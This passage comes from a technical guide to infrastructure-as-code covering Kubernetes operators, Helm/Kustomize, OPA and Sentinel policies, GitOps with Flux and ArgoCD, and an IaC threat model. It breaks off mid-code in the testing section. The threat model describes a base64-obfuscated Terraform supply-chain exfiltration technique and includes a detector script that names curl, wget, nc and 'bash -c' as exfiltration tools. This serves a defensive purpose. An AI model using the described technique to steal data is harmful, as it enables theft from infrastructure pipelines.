The Kubernetes control loop is formalized as: `observe current state → diff against desired state → take action to reduce diff → repeat`. Each controller is responsible for a specific resource type. The `Deployment` controller manages `ReplicaSet` objects; the `ReplicaSet` controller manages `Pod` objects; the `kubelet` on each node manages pod lifecycle on its node. This hierarchical cascade of controllers is itself a DAG of reconciliation loops, each operating independently and communicating only through the API server's shared state.

Kubernetes operators extend this model to arbitrary domain-specific resources. The operator pattern uses Custom Resource Definitions (CRDs) to define new resource types and custom controllers to reconcile them. The following example shows a production-grade database operator reconciler implementing the full reconciliation lifecycle, including status conditions and exponential backoff:

```go
package controllers

import (
    "context"
    "fmt"
    "time"

    "github.com/go-logr/logr"
    apierrors "k8s.io/apimachinery/pkg/api/errors"
    "k8s.io/apimachinery/pkg/api/meta"
    metav1 "k8s.io/apimachinery/pkg/apis/meta/v1"
    ctrl "sigs.k8s.io/controller-runtime"
    "sigs.k8s.io/controller-runtime/pkg/client"

    dbv1alpha1 "example.com/db-operator/api/v1alpha1"
    "example.com/db-operator/pkg/cloud"
)

// DatabaseReconciler reconciles Database custom resources
type DatabaseReconciler struct {
    client.Client
    Log           logr.Logger
    CloudProvider cloud.DatabaseProvider
}

const (
    conditionTypeAvailable = "Available"
    conditionTypeProvisioning = "Provisioning"

    reasonProvisioningFailed   = "ProvisioningFailed"
    reasonProvisioningStarted  = "ProvisioningStarted"
    reasonProvisioningComplete = "ProvisioningComplete"
    reasonRateLimited          = "RateLimited"
)

// +kubebuilder:rbac:groups=db.example.com,resources=databases,verbs=get;list;watch;create;update;patch;delete
// +kubebuilder:rbac:groups=db.example.com,resources=databases/status,verbs=get;update;patch
// +kubebuilder:rbac:groups=db.example.com,resources=databases/finalizers,verbs=update

func (r *DatabaseReconciler) Reconcile(ctx context.Context, req ctrl.Request) (ctrl.Result, error) {
    log := r.Log.WithValues("database", req.NamespacedName)

    // Fetch the Database resource; ignore NotFound (resource was deleted between
    // the watch event and the reconcile call — this is normal).
    db := &dbv1alpha1.Database{}
    if err := r.Get(ctx, req.NamespacedName, db); err != nil {
        return ctrl.Result{}, client.IgnoreNotFound(err)
    }

    // Handle deletion via finalizer pattern
    if !db.DeletionTimestamp.IsZero() {
        return r.reconcileDelete(ctx, db, log)
    }

    // Ensure finalizer is registered before we create any cloud resources
    if !containsString(db.Finalizers, "db.example.com/finalizer") {
        db.Finalizers = append(db.Finalizers, "db.example.com/finalizer")
        if err := r.Update(ctx, db); err != nil {
            return ctrl.Result{}, fmt.Errorf("registering finalizer: %w", err)
        }
        return ctrl.Result{Requeue: true}, nil
    }

    return r.reconcileCreate(ctx, db, log)
}

func (r *DatabaseReconciler) reconcileCreate(
    ctx context.Context,
    db *dbv1alpha1.Database,
    log logr.Logger,
) (ctrl.Result, error) {
    // Query actual state from cloud provider
    instance, err := r.CloudProvider.GetDatabaseInstance(ctx, db.Spec.InstanceID)
    if err != nil {
        // Distinguish rate limit errors (transient, back off) from other errors
        if cloud.IsRateLimitError(err) {
            log.Info("rate limited by cloud provider, backing off", "retryAfter", "30s")
            meta.SetStatusCondition(&db.Status.Conditions, metav1.Condition{
                Type:    conditionTypeAvailable,
                Status:  metav1.ConditionFalse,
                Reason:  reasonRateLimited,
                Message: "Cloud provider API rate limit exceeded; retrying",
            })
            _ = r.Status().Update(ctx, db)
            // Return with explicit backoff to avoid thundering herd
            return ctrl.Result{RequeueAfter: 30 * time.Second}, nil
        }
        return ctrl.Result{}, fmt.Errorf("querying database instance: %w", err)
    }

    // Resource does not exist — create it
    if instance == nil {
        log.Info("creating database instance", "instanceID", db.Spec.InstanceID)
        meta.SetStatusCondition(&db.Status.Conditions, metav1.Condition{
            Type:    conditionTypeProvisioning,
            Status:  metav1.ConditionTrue,
            Reason:  reasonProvisioningStarted,
            Message: "Database instance creation initiated",
        })
        _ = r.Status().Update(ctx, db)

        if _, err := r.CloudProvider.CreateDatabaseInstance(ctx, db.Spec); err != nil {
            meta.SetStatusCondition(&db.Status.Conditions, metav1.Condition{
                Type:    conditionTypeAvailable,
                Status:  metav1.ConditionFalse,
                Reason:  reasonProvisioningFailed,
                Message: err.Error(),
            })
            _ = r.Status().Update(ctx, db)
            return ctrl.Result{RequeueAfter: 60 * time.Second}, nil
        }
        // Instance creation is async; requeue to check status
        return ctrl.Result{RequeueAfter: 15 * time.Second}, nil
    }

    // Instance exists but is not yet available
    if instance.Status != cloud.StatusAvailable {
        log.Info("waiting for database instance", "currentStatus", instance.Status)
        return ctrl.Result{RequeueAfter: 10 * time.Second}, nil
    }

    // Instance is available — update status and clear conditions
    db.Status.Endpoint = instance.Endpoint
    db.Status.Port     = instance.Port
    meta.SetStatusCondition(&db.Status.Conditions, metav1.Condition{
        Type:    conditionTypeAvailable,
        Status:  metav1.ConditionTrue,
        Reason:  reasonProvisioningComplete,
        Message: "Database instance is available",
    })
    if err := r.Status().Update(ctx, db); err != nil {
        return ctrl.Result{}, fmt.Errorf("updating status: %w", err)
    }

    log.Info("database reconciliation complete", "endpoint", instance.Endpoint)
    return ctrl.Result{}, nil
}

func (r *DatabaseReconciler) reconcileDelete(
    ctx context.Context,
    db *dbv1alpha1.Database,
    log logr.Logger,
) (ctrl.Result, error) {
    if containsString(db.Finalizers, "db.example.com/finalizer") {
        log.Info("deleting cloud database instance", "instanceID", db.Spec.InstanceID)
        if err := r.CloudProvider.DeleteDatabaseInstance(ctx, db.Spec.InstanceID); err != nil && !cloud.IsNotFoundError(err) {
            return ctrl.Result{}, fmt.Errorf("deleting database instance: %w", err)
        }
        // Remove finalizer to allow Kubernetes GC to delete the resource object
        db.Finalizers = removeString(db.Finalizers, "db.example.com/finalizer")
        if err := r.Update(ctx, db); err != nil {
            return ctrl.Result{}, fmt.Errorf("removing finalizer: %w", err)
        }
    }
    return ctrl.Result{}, nil
}

func containsString(slice []string, s string) bool {
    for _, item := range slice {
        if item == s {
            return true
        }
    }
    return false
}

func removeString(slice []string, s string) []string {
    result := make([]string, 0, len(slice))
    for _, item := range slice {
        if item != s {
            result = append(result, item)
        }
    }
    return result
}
```

This operator correctly implements the finalizer pattern to prevent resource deletion before cloud cleanup completes, distinguishes rate-limit errors from permanent errors, uses status conditions following the Kubernetes API conventions (`metav1.Condition`), and applies explicit requeue intervals rather than immediate retries. The `controller-runtime` library's workqueue implements per-item exponential backoff automatically for items that return non-nil errors, but explicit `RequeueAfter` overrides that backoff when a specific retry interval is known.

**Helm and Kustomize** represent two distinct philosophies for manifest composition. Helm treats manifests as parameterized templates rendered by a template engine (Go `text/template`). Kustomize treats manifests as structured data to be transformed by patches without a template language. Each has distinct failure modes: Helm templates can produce syntactically valid but semantically incorrect YAML when template logic contains bugs; Kustomize strategic merge patches can silently ignore patches that target nonexistent fields.

```yaml
# Helm values.yaml — production-grade with security defaults
replicaCount: 3

image:
  repository: "ghcr.io/my-org/webapp"
  tag: ""           # overridden by CI pipeline using --set image.tag=$SHA
  pullPolicy: IfNotPresent
  pullSecrets:
    - name: ghcr-credentials

podAnnotations:
  prometheus.io/scrape: "true"
  prometheus.io/port:   "8080"

securityContext:
  runAsNonRoot:             true
  runAsUser:                65534
  fsGroup:                  65534
  seccompProfile:
    type: RuntimeDefault

containerSecurityContext:
  allowPrivilegeEscalation: false
  readOnlyRootFilesystem:   true
  capabilities:
    drop: ["ALL"]

resources:
  limits:
    cpu:    "500m"
    memory: "256Mi"
  requests:
    cpu:    "100m"
    memory: "128Mi"

livenessProbe:
  httpGet:
    path: /healthz
    port: 8080
  initialDelaySeconds: 10
  periodSeconds:       15
  failureThreshold:    3

readinessProbe:
  httpGet:
    path: /readyz
    port: 8080
  initialDelaySeconds: 5
  periodSeconds:       10
  failureThreshold:    3

service:
  type: ClusterIP      # never LoadBalancer; use Ingress
  port: 80

ingress:
  enabled: true
  className: "nginx"
  annotations:
    cert-manager.io/cluster-issuer: "letsencrypt-prod"
    nginx.ingress.kubernetes.io/ssl-redirect: "true"
  hosts:
    - host: "webapp.example.com"
      paths:
        - path: /
          pathType: Prefix
  tls:
    - secretName: webapp-tls
      hosts: ["webapp.example.com"]

autoscaling:
  enabled:                           true
  minReplicas:                       3
  maxReplicas:                       20
  targetCPUUtilizationPercentage:    70
  targetMemoryUtilizationPercentage: 80

topologySpreadConstraints:
  - maxSkew:           1
    topologyKey:       topology.kubernetes.io/zone
    whenUnsatisfiable: DoNotSchedule
    labelSelector:
      matchLabels:
        app.kubernetes.io/name: webapp
```

The security defaults embedded in this values file—`readOnlyRootFilesystem`, dropping all Linux capabilities, non-root UID, `seccompProfile: RuntimeDefault`, and `allowPrivilegeEscalation: false`—represent the minimum viable pod hardening posture recommended by the CIS Kubernetes Benchmark and the NSA Kubernetes Hardening Guide.

**Kustomize** provides an alternative composition model based on structured overlays that avoids template logic entirely:

```yaml
# base/kustomization.yaml
apiVersion: kustomize.config.k8s.io/v1beta1
kind: Kustomization

resources:
  - deployment.yaml
  - service.yaml
  - hpa.yaml

commonLabels:
  app.kubernetes.io/managed-by: kustomize

# overlays/production/kustomization.yaml
apiVersion: kustomize.config.k8s.io/v1beta1
kind: Kustomization

resources:
  - ../../base

namePrefix: prod-

replicas:
  - name: webapp
    count: 10

images:
  - name: ghcr.io/my-org/webapp
    newTag: "sha-abc1234"

patches:
  - target:
      kind: Deployment
      name: webapp
    patch: |-
      - op: add
        path: /spec/template/spec/topologySpreadConstraints
        value:
          - maxSkew: 1
            topologyKey: topology.kubernetes.io/zone
            whenUnsatisfiable: DoNotSchedule
            labelSelector:
              matchLabels:
                app: webapp
  - target:
      kind: HorizontalPodAutoscaler
      name: webapp
    patch: |-
      - op: replace
        path: /spec/maxReplicas
        value: 50
```

Kustomize's strategic merge patches and JSON 6902 patches are constrained to modifying specific paths in a document, which makes the diff between base and overlay explicit and auditable. The overlay directory contains only the differences, not a copy of the full manifest.

### Policy-as-Code: Open Policy Agent, Gatekeeper, and Sentinel

Open Policy Agent (OPA) is a general-purpose policy engine that decouples policy decisions from policy enforcement. OPA evaluates Rego policies against arbitrary JSON input and produces JSON output. The same OPA instance can enforce policies against Kubernetes admission requests (via the OPA Gatekeeper integration), Terraform plan JSON, API gateway authorization requests, and application data—using the same policy language across all contexts. This is architecturally important because it means security policies can be written once and enforced at multiple layers of the stack.

Rego is a datalog-inspired declarative language. Policies are sets of rules; a rule is a Horn clause that evaluates to true when all its body conditions are true. The `deny` rule pattern used in admission control accumulates denial messages in a set; if the set is non-empty after evaluation, the admission request is rejected.

```rego
# policies/kubernetes/pod-security.rego
package kubernetes.admission

import future.keywords.contains
import future.keywords.if

# --- Memory limits required on all containers ---

deny contains msg if {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    not container.resources.limits.memory
    msg := sprintf(
        "pod/%s: container %q must declare a memory limit",
        [input.request.object.metadata.name, container.name],
    )
}

# --- Read-only root filesystem required ---

deny contains msg if {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    not container.securityContext.readOnlyRootFilesystem == true
    msg := sprintf(
        "pod/%s: container %q must set securityContext.readOnlyRootFilesystem=true",
        [input.request.object.metadata.name, container.name],
    )
}

# --- Privilege escalation must be disabled ---

deny contains msg if {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    not container.securityContext.allowPrivilegeEscalation == false
    msg := sprintf(
        "pod/%s: container %q must set allowPrivilegeEscalation=false",
        [input.request.object.metadata.name, container.name],
    )
}

# --- Disallow privileged containers ---

deny contains msg if {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    container.securityContext.privileged == true
    msg := sprintf(
        "pod/%s: container %q must not run as privileged",
        [input.request.object.metadata.name, container.name],
    )
}

# --- Require non-root user ---

deny contains msg if {
    input.request.kind.kind == "Pod"
    not input.request.object.spec.securityContext.runAsNonRoot == true
    msg := sprintf(
        "pod/%s: pod spec must set securityContext.runAsNonRoot=true",
        [input.request.object.metadata.name],
    )
}

# --- Block LoadBalancer services without internal annotation ---

deny contains msg if {
    input.request.kind.kind == "Service"
    input.request.object.spec.type == "LoadBalancer"
    not input.request.object.metadata.annotations["service.beta.kubernetes.io/aws-load-balancer-internal"] == "true"
    msg := sprintf(
        "service/%s: LoadBalancer services must be internal (annotation 'aws-load-balancer-internal=true')",
        [input.request.object.metadata.name],
    )
}
```

OPA Gatekeeper integrates OPA into Kubernetes as a validating admission webhook. Gatekeeper uses a two-layer abstraction: `ConstraintTemplate` CRDs define the Rego policy logic and the schema of constraint parameters; `Constraint` CRDs are instances of templates that activate the policy with specific configuration. This separation allows platform teams to define policy templates while application teams configure enforcement parameters per namespace.

```yaml
# ConstraintTemplate: defines the Rego logic and parameter schema
apiVersion: templates.gatekeeper.sh/v1
kind: ConstraintTemplate
metadata:
  name: k8srequiredlabels
spec:
  crd:
    spec:
      names:
        kind: K8sRequiredLabels
      validation:
        openAPIV3Schema:
          type: object
          properties:
            labels:
              type: array
              items:
                type: string
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8srequiredlabels
        import future.keywords.contains
        import future.keywords.if

        deny contains msg if {
            provided := {label | input.review.object.metadata.labels[label]}
            required := {label | label := input.parameters.labels[_]}
            missing  := required - provided
            count(missing) > 0
            msg := sprintf(
                "%s/%s is missing required labels: %v",
                [input.review.object.kind, input.review.object.metadata.name, missing],
            )
        }
---
# Constraint: activates the template for all Namespaces
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sRequiredLabels
metadata:
  name: ns-must-have-owner-and-env
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Namespace"]
  parameters:
    labels:
      - "owner"
      - "environment"
      - "cost-center"
```

Gatekeeper also provides **audit** functionality: it periodically re-evaluates all existing resources against active constraints and records violations in the constraint's `.status.violations` field. This surfaces pre-existing violations that were created before the constraint was activated, closing the gap between admission-time enforcement and existing-resource compliance.

**Checkov** is a static analysis tool that evaluates IaC files (Terraform, CloudFormation, Kubernetes YAML, Helm charts, Dockerfile) against a library of security and compliance checks without requiring a running infrastructure. Integrating Checkov into CI pipelines provides fast feedback on common security misconfigurations:

```yaml
# .github/workflows/iac-security.yml
name: IaC Security Scan
on:
  pull_request:
    paths:
      - "infra/**"
      - "k8s/**"

jobs:
  checkov:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Run Checkov on Terraform
        uses: bridgecrewio/checkov-action@v12
        with:
          directory: infra/
          framework: terraform
          soft_fail: false
          output_format: sarif
          output_file_path: results-terraform.sarif
          # Skip checks that are accepted risks with compensating controls
          skip_check: "CKV_AWS_8"  # EC2 detailed monitoring (cost decision)

      - name: Run Checkov on Kubernetes manifests
        uses: bridgecrewio/checkov-action@v12
        with:
          directory: k8s/
          framework: kubernetes
          soft_fail: false
          output_format: sarif
          output_file_path: results-k8s.sarif

      - name: Upload SARIF results
        uses: github/codeql-action/upload-sarif@v3
        if: always()
        with:
          sarif_file: results-terraform.sarif
```

**Sentinel**, used with Terraform Cloud and Terraform Enterprise, enforces policies during the plan phase before an apply is permitted. Sentinel has access to the full plan JSON, enabling policies that reason about resource changes, attribute values, and relationships between resources:

```hcl
# sentinel/policies/enforce-tagging.sentinel
import "tfplan/v2" as tfplan

# Tags that every resource must carry
required_tags = ["Environment", "Owner", "CostCenter", "ManagedBy"]

# Collect all resource changes that are creating or updating resources
resource_changes = filter tfplan.resource_changes as _, rc {
    rc.change.actions contains "create" or
    rc.change.actions contains "update"
}

# Rule: every resource change must supply all required tags
deny_missing_tags = rule {
    all resource_changes as _, rc {
        all required_tags as tag {
            rc.change.after.tags[tag] is not null and
            rc.change.after.tags[tag] is not ""
        }
    }
}

# Rule: EC2 instances must not use instance types reserved for data processing
prohibited_instance_types = ["p4d.24xlarge", "p3.16xlarge", "m5.24xlarge"]

deny_oversized_ec2 = rule {
    all resource_changes as _, rc {
        rc.type is "aws_instance" implies
            rc.change.after.instance_type not in prohibited_instance_types
    }
}

# Rule: S3 buckets must not have ACLs set to public-read or public-read-write
deny_public_s3 = rule {
    all resource_changes as _, rc {
        rc.type is "aws_s3_bucket_acl" implies
            rc.change.after.acl not in ["public-read", "public-read-write"]
    }
}

main = rule {
    deny_missing_tags and deny_oversized_ec2 and deny_public_s3
}
```

The separation of concerns between Checkov (shift-left, static analysis before plan), Sentinel/OPA (plan-time enforcement), and Gatekeeper (admission-time enforcement) creates a layered policy enforcement architecture. Each layer catches different categories of violations:


### GitOps: Flux and ArgoCD

GitOps is an operational model, not a tool. Its defining properties are: (1) the entire desired state of the system is stored in Git, (2) all changes to desired state are made via Git operations (commits, pull requests, merges), (3) a software agent automatically applies approved desired state to the target system, and (4) the agent continuously reconciles actual state against desired state. The practical consequence is that Git becomes a *command-and-control plane* for infrastructure, with every change authorized, audited, and reproducible.

**Flux CD v2** implements GitOps using a toolkit of composable controllers. The `source-controller` fetches and caches sources (Git repositories, Helm repositories, OCI registries). The `kustomize-controller` applies Kustomize overlays to cluster resources. The `helm-controller` manages Helm release lifecycle. The `notification-controller` emits alerts and events. Each controller is independently operable and observability-instrumented with Prometheus metrics and Kubernetes events.

```yaml
# Flux: watch a Git repository and automatically apply the production overlay
apiVersion: source.toolkit.fluxcd.io/v1
kind: GitRepository
metadata:
  name: webapp
  namespace: flux-system
spec:
  interval: 1m0s
  url: https://github.com/my-org/webapp-config
  ref:
    branch: main
  secretRef:
    name: webapp-git-credentials   # SSH deploy key or HTTPS token
  # Verify signed commits — requires a Cosign public key ConfigMap
  verify:
    provider: cosign
    secretRef:
      name: cosign-public-key
---
apiVersion: kustomize.toolkit.fluxcd.io/v1
kind: Kustomization
metadata:
  name: webapp
  namespace: flux-system
spec:
  interval: 5m0s
  path: "./overlays/production"
  prune: true          # delete resources removed from Git
  wait: true           # block next reconciliation until all resources are healthy
  timeout: 5m0s
  sourceRef:
    kind: GitRepository
    name: webapp
  # Post-build variable substitution from cluster ConfigMaps/Secrets
  postBuild:
    substituteFrom:
      - kind: ConfigMap
        name: cluster-vars
  healthChecks:
    - apiVersion: apps/v1
      kind: Deployment
      name: webapp
      namespace: production
  decryption:
    provider: sops
    secretRef:
      name: sops-age-key    # SOPS age private key for decrypting encrypted secrets
```

The `verify.provider: cosign` field enables Flux to verify that the Git commit was signed by a known key before applying it. This is a critical supply chain control: even if an attacker gains write access to the Git repository, they cannot inject unsigned commits that Flux will apply. Combined with branch protection requiring signed commits and mandatory review approvals, this creates a cryptographically verifiable chain of custody from developer workstation to running cluster.

**ArgoCD** provides equivalent GitOps functionality with a richer UI and a different architectural model. Where Flux runs as a set of independent controllers with no central server, ArgoCD runs an application server that exposes a gRPC/REST API and a web UI. ArgoCD's `Application` CRD is roughly equivalent to Flux's `Kustomization`, but ArgoCD supports additional source types (plain directory, Helm, Kustomize, Jsonnet) and provides first-class multi-cluster management via `AppProject` RBAC and cluster secrets.

```yaml
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: webapp
  namespace: argocd
  finalizers:
    # Cascade delete: removing this Application removes all managed resources
    - resources-finalizer.argocd.argoproj.io
spec:
  project: production

  source:
    repoURL: https://github.com/my-org/webapp-config
    targetRevision: main
    path: overlays/production

  destination:
    server: https://kubernetes.default.svc
    namespace: production

  syncPolicy:
    automated:
      prune: true        # delete resources removed from Git
      selfHeal: true     # revert manual changes (drift remediation)
      allowEmpty: false  # prevent accidental deletion of all resources
    syncOptions:
      - CreateNamespace=true
      - PrunePropagationPolicy=foreground
      - RespectIgnoreDifferences=true
    retry:
      limit: 5
      backoff:
        duration: 5s
        factor: 2
        maxDuration: 3m0s

  # Ignore differences in fields managed by other controllers
  ignoreDifferences:
    - group: apps
      kind: Deployment
      jsonPointers:
        - /spec/replicas    # managed by HPA; don't overwrite on sync
```

The `ignoreDifferences` field resolves a common tension in GitOps: a `Deployment` declares `replicas: 3` in Git, but the HPA scales it to 7 at runtime. Without this field, ArgoCD would continuously revert the HPA's scaling to match Git, breaking autoscaling. By telling ArgoCD to ignore `/spec/replicas`, the HPA is free to manage replica count while ArgoCD manages everything else.

**GitOps security model:**



The GitOps controller's service account holds elevated cluster permissions (to create any resource declared in Git), but *no human* directly uses that service account. The effective authorization model for infrastructure changes is: Git branch protection rules + required PR approvals + commit signing verification. This is strictly stronger than a human-operated `kubectl apply` workflow where any person with cluster credentials can make arbitrary changes without an audit trail.

---

## 4. Threat Model & Attack Surface

IaC systems introduce attack surfaces that did not exist in manual operations. The threat model must account for every link in the chain: developer workstation → Git repository → CI/CD pipeline → orchestration engine → state backend → cloud provider API.



**State file compromise** is catastrophic. Terraform state files contain resource identifiers, IAM role ARNs, database connection strings, and in older provider versions, plaintext credentials. An attacker with read access to state can reconstruct the complete topology of running infrastructure—a reconnaissance capability equivalent to a detailed network map. An attacker with write access can execute *state manipulation attacks*: deleting resource entries causes Terraform to believe resources no longer exist, triggering destructive `terraform apply` runs. Injecting references to attacker-controlled resources causes the orchestration engine to attempt operations against them.

State encryption at rest is mandatory. When using the S3 backend, `encrypt = true` and `kms_key_id` enable AES-256-GCM encryption of the state file using a customer-managed KMS key. Access to the KMS key is controlled separately from access to the S3 bucket, providing defense-in-depth. The DynamoDB lock table should be encrypted using the same KMS key. State files must never be committed to Git—even to private repositories—because Git history is immutable and exposed credentials remain permanently accessible to anyone who ever cloned the repository.

The correct architecture for state storage:



**OIDC-based credential federation** eliminates the need to store long-lived cloud credentials in CI/CD systems. GitHub Actions, GitLab CI, and CircleCI all support OIDC token issuance. The workflow authenticates to the cloud provider by presenting a JWT signed by the CI/CD system's OIDC provider; the cloud provider validates the JWT and issues temporary credentials with a TTL matching the job duration. Because credentials are never stored and expire automatically, the credential theft window is bounded to the job execution window.

```yaml
# .github/workflows/terraform-deploy.yml
name: Deploy Infrastructure
on:
  push:
    branches: [main]
    paths: ["infra/**"]

permissions:
  id-token: write   # required for OIDC JWT issuance
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production   # requires manual approval from production team

    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0

      - name: Configure AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActions-TerraformDeploy
          role-session-name: "GitHubActions-${{ github.run_id }}"
          aws-region: us-east-1
          # Credentials expire after the job; no stored secrets

      - name: Setup Terraform
        uses: hashicorp/setup-terraform@v3
        with:
          terraform_version: "1.7.0"

      - name: Terraform Init
        run: terraform init
        working-directory: infra/

      - name: Terraform Plan
        id: plan
        run: terraform plan -out=tfplan.binary -detailed-exitcode
        working-directory: infra/

      - name: Run Checkov on plan
        run: |
          terraform show -json tfplan.binary > tfplan.json
          checkov -f tfplan.json --framework terraform_plan --hard-fail-on HIGH

      - name: Terraform Apply
        # Only apply if plan produced changes (exit code 2)
        if: steps.plan.outputs.exitcode == 2
        run: terraform apply tfplan.binary
        working-directory: infra/
```

The IAM trust policy for the GitHub Actions role restricts trust to specific repository and branch, preventing other repositories or branches from assuming the role:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:my-org/my-repo:ref:refs/heads/main"
        }
      }
    }
  ]
}
```

The `sub` condition ensures that only pushes to the `main` branch of `my-org/my-repo` can assume the role. Pull request workflows from forks cannot trigger the deployment.

**Git repository compromise** becomes infrastructure compromise in a GitOps model. An attacker with merge access to the main branch can inject malicious infrastructure configuration that is automatically applied to production. Defense-in-depth controls:

- Branch protection: require at least two approvals from code owners; prevent force pushes; require signed commits.
- CODEOWNERS: route infrastructure changes to the platform team for mandatory review.
- Required status checks: `terraform plan` output and policy checks must pass before merge.
- Signed commit verification: Flux/ArgoCD verify commit signatures before applying. Combined with hardware security keys (YubiKey) for commit signing, this prevents impersonation.
- Secret scanning: GitHub Advanced Security and GitGuardian scan all commits for credential patterns, blocking pushes containing secrets.

**CI/CD pipeline compromise** is a high-impact attack vector. A compromised pipeline runner with access to the OIDC role can provision arbitrary infrastructure or exfiltrate state. Mitigations:

- Use ephemeral runners that are created fresh for each job and destroyed on completion (no persistent state to compromise).
- Isolate production deployment jobs on dedicated runner pools with no network access to development or staging environments.
- Pin all action versions to commit SHAs (`uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683`) rather than version tags, which are mutable.
- Implement pipeline-level audit logging: every command executed in a pipeline should be logged to an append-only audit log.

**Supply chain attacks against IaC modules and Helm charts** represent an underappreciated risk surface. The 2024 attack pattern—compromising a maintainer's GitHub account and publishing a new module version containing an obfuscated data exfiltration script—exploits the implicit trust organizations place in public registries. Mitigations:

- **Vendor critical modules**: mirror trusted modules to a private internal registry. This prevents silent updates from upstream and forces explicit review of version upgrades.
- **Pin module versions**: always specify exact module versions (`version = "5.4.0"`, not `version = "~> 5"`) and commit the `.terraform.lock.hcl` file to enforce provider version pinning.
- **Automated provenance verification**: use `cosign` to verify module artifact signatures where available. The Terraform Registry does not yet universally support artifact signing, making private mirroring the primary control.
- **Static analysis of modules**: run Checkov and tflint against vendored modules. The malicious `external` data source pattern is detectable by rules that flag external data sources executing shell scripts.
- **Network egress monitoring**: infrastructure provisioning should be run in a network-restricted environment. Unexpected outbound connections to unknown IP addresses during `terraform apply` indicate possible supply chain compromise.

The specific attack vector from the 2024 case study used Terraform's `external` data source, which executes an arbitrary program and captures its output. The malicious code was base64-encoded to evade naïve string scanning. Detecting this requires semantic analysis of `external` data sources rather than grep-based scanning:

```python
# detect_external_datasource_abuse.py
# Static analysis script to flag suspicious external data sources in Terraform code

import os
import re
import sys
import base64

EXTERNAL_DATASOURCE_PATTERN = re.compile(
    r'data\s+"external"\s+"[^"]+"\s*\{.*?program\s*=\s*\[(.*?)\]',
    re.DOTALL,
)
BASE64_PATTERN = re.compile(r'"([A-Za-z0-9+/]{40,}={0,2})"')

def analyze_tf_file(path: str) -> list[str]:
    findings = []
    with open(path, encoding="utf-8") as f:
        content = f.read()

    for match in EXTERNAL_DATASOURCE_PATTERN.finditer(content):
        program_args = match.group(1)
        # Flag any base64-encoded string in the program arguments
        for b64_match in BASE64_PATTERN.finditer(program_args):
            try:
                decoded = base64.b64decode(b64_match.group(1)).decode("utf-8", errors="replace")
                findings.append(
                    f"{path}: suspicious base64-encoded argument in external data source: "
                    f"decoded preview: {decoded[:120]!r}"
                )
            except Exception:
                pass
        # Flag curl/wget/nc in program arguments — common exfiltration tools
        for tool in ("curl", "wget", "nc ", "ncat", "python", "bash -c"):
            if tool in program_args:
                findings.append(
                    f"{path}: external data source invokes '{tool}' — review for data exfiltration"
                )
    return findings

def main():
    root = sys.argv[1] if len(sys.argv) > 1 else "."
    all_findings = []
    for dirpath, _, filenames in os.walk(root):
        for name in filenames:
            if name.endswith(".tf"):
                all_findings.extend(analyze_tf_file(os.path.join(dirpath, name)))
    if all_findings:
        for finding in all_findings:
            print(f"[WARN] {finding}")
        sys.exit(1)
    print("[OK] No suspicious external data sources detected.")

if __name__ == "__main__":
    main()
```

**Denial-of-service against orchestration engines** is a less-discussed but real risk. An attacker with the ability to create Kubernetes resources (e.g., via a compromised application pod with excessive RBAC permissions) can flood the API server with resource creation requests, triggering thousands of operator reconciliation loops. Mitigations include Kubernetes `ResourceQuota` and `LimitRange` objects in each namespace, API priority and fairness (APF) configuration (`FlowSchema` and `PriorityLevelConfiguration` resources), and network policies preventing pods from directly accessing the Kubernetes API server.

---

## 5. Verification & Testing Strategies

Infrastructure testing traditionally lagged behind application testing because infrastructure changes were manual and difficult to isolate. IaC enables automated testing using the same patterns as application testing: unit tests, integration tests, end-to-end tests, and property-based tests. The key distinction from application testing is that infrastructure tests interact with real external systems (cloud providers, databases, networks), making them inherently slower and more expensive than application unit tests. The testing pyramid applies: many fast unit/plan tests, fewer integration tests against real infrastructure, and a small number of full end-to-end tests in production-like environments.

**Terraform native testing** (introduced as stable in Terraform 1.6) supports `.tftest.hcl` files that execute test cases against module configurations. Tests can run in `plan` mode (no actual provisioning) or `apply` mode (provision real resources):

```hcl
# tests/vpc.tftest.hcl
variables {
  environment   = "test"
  cidr_block    = "10.0.0.0/16"
  azs           = ["us-east-1a", "us-east-1b", "us-east-1c"]
}

provider "aws" {
  region = "us-east-1"
  # Use test-specific profile / role
  assume_role {
    role_arn = "arn:aws:iam::999999999999:role/TerraformTesting"
  }
}

# Plan-only test: fast, no cloud resources created
run "validate_cidr_assignments" {
  command = plan

  assert {
    condition     = cidrsubnet(var.cidr_block, 8, 0) == "10.0.0.0/24"
    error_message = "Subnet CIDR calculation is incorrect"
  }

  assert {
    condition     = length(aws_subnet.private) == length(var.azs)
    error_message = "Must provision one private subnet per AZ"
  }

  assert {
    condition     = aws_vpc.main.enable_dns_hostnames == true
    error_message = "VPC must have DNS hostnames enabled"
  }
}

# Apply test: provisions real resources, runs assertions, tears down
run "verify_nat_gateway_connectivity" {
  command = apply

  assert {
    condition     = aws_nat_gateway.main[0].state == "available"
    error_message = "NAT gateway must be in available state"
  }

  assert {
    condition     = aws_eip.nat[0].domain == "vpc"
    error_message = "NAT gateway EIP must be in VPC domain"
  }
}
```

**Terratest** is the de-facto standard for infrastructure integration testing in Go. It provides helper functions for provisioning Terraform configurations, querying cloud provider APIs, making HTTP requests, executing SSH commands, and validating infrastructure behavior:

```go
package test

import (
    "fmt"
    "net/http"
    "testing"
    "time"

    "github.com/gruntwork-io/terratest/modules/aws"
    "github.com/gruntwork-io/terratest/modules/retry"
    "github.com/gruntwork-io/terratest/modules/terraform"
    "github.com/stretchr/testify/assert"
    "github.com/stretchr/testify/require"
)

